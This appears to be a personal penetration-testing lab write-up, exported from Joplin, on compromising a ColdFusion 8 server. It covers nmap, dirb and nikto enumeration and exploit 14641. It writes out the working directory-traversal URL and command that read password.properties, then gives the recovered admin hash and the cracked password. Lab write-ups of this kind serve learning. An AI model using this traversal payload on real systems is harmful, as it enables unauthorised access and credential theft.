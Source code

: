 Enumeration

Enumeration

# NMAP
## TCP Ports
### sudo nmap -Pn -p- 10.11.1.10
![b92e64a728aa058c4b5febbe5a0e419f.png](:/3fc3d4e1e6c14707860014985312cf6c)


# dirb
Non-recursive scan
### dirb http://10.11.1.10 -r
![98dda4b9588d5a0540d259886ea6d092.png](:/0aa9bda96ea74282a6d6e1c835be0437)

Recursive scan on the ColdFusion administrator link
### dirb http://10.11.1.10/CFIDE/administrator/
![5ddc04f72da2ffefece02756d716c513.png](:/174dc093aa6548fcb725b0a3854b76dc)


# Nikto
![eefe619c3d685418d98d47267130281c.png](:/e366bbd24d614977950cdb209ca3efb6)

# Searchsploit
Search for ColdFusion
![2e67ff55f9c36f2d567b76298dfaf193.png](:/0d9450d4cac0424f89c53547e59f07b4)

## Directory Traversal, exploit 14641
After examining the Directory Traversal exploit 14641 (-x switch), download it.
![3e57c568b5e3f1bd024c86bc67f0becb.png](:/59dad30f089a4c7193eef53a2d6610d7)

This is the exploit code for 14641
[14641.py](:/411c5cb7d09b473a9f8c5977f1552776)

The usage for 14641.py
![bc6ddb1276e12e02a04cf96b91e132c3.png](:/cd01eb8a9c07496091bccb7c1424117a)

Within the exploit,a string a working string is specified
### http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
![b2a8db76f9a75cd8989dfc9c467b1455.png](:/7d87a6751b1a43b4a68a442c2e67615b)

Run exploit on the CLI. Ensure to use the target IP
### python 14641.py 10.11.1.10 80 ../../../../../../../../../../ColdFusion8/lib/password.properties%00en
![d69d92157b69f1e4e7eda0c33ca7593d.png](:/d44c5551aae94cb7bbed9c3366ce22c1)

Run the exploit on the browser as well
### http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
![cf8_passwd.png](:/fce1ee7db2b341b7a3b9d4dd8ce48813)

The Administrator hash is found: 
### AAFDC23870ECBCD3D557B6423A8982134E17927E

# Crackstation

Crack the ColdFusion 8 'admin' password hash. Password is: pass123
![53f0079156bedae8e1bdb0175a5c8c3e.png](:/b0078eca3c04478caaa5bd23e33a6d7b)



# Other Tools


id: 5e9e5c4b57c0453eaa8507cf6e0651da
parent_id: 993b555b96794a5c936f8949d643080a
created_time: 2020-08-24T23:07:04.764Z
updated_time: 2020-08-25T10:49:49.509Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-08-24T23:07:04.764Z
user_updated_time: 2020-08-25T10:49:49.509Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
type_: 1